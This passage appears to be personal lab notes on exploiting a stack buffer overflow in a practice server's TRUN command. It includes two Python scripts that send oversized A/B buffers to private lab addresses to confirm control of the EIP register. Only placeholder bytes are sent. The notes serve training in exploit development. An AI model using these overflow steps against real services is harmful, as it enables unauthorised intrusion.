 Before Overwriting the EIP with our Payload, we will check if we are correct or not, by using the following script.

*overwrite.py*

```python
#!/usr/bin/python3

import sys, socket
from time import sleep

shellcode = "A" * 2003 + "B" * 4

try:
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect(('192.168.137.134',9999))
	
	payload = "TRUN /.:/" + shellcode
	
	s.send((payload.encode()))
	s.close()

except:
	print ("Error connecting to server")
	sys.exit()
```

Now, if our **EIP** address is correct, then after 2003 A's up until **EBP** Register, the value of **EIP Register** should be 4 B's or `42424242`.

![[Pasted image 20231031214643.png]]

And we are correct.

Now we just need to replace the Shellcode with our Exploit, but have to keep 2 things in mind before doing that.

---

*3.py*
```
#!/usr/bin/python
import socket

try:
  print "\n[+] Sending evil buffer..."
  offset = "A" * 524
  eip = "B" * 4
  shellcode = "C" * (1000 - len(offset) - len(eip))

  buffer = offset + eip + shellcode

  s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
  
  s.connect(("192.168.135.10", 9999))
  s.send(buffer)
  
  s.close()
 
  print "\n[+] Sending buffer of " + str(len(buffer)) + " bytes..."
  print "\n[+] Sending buffer: " + buffer
  print "\n[+] Done!"
  
except:
  print "\n[+] Could not connect!"
```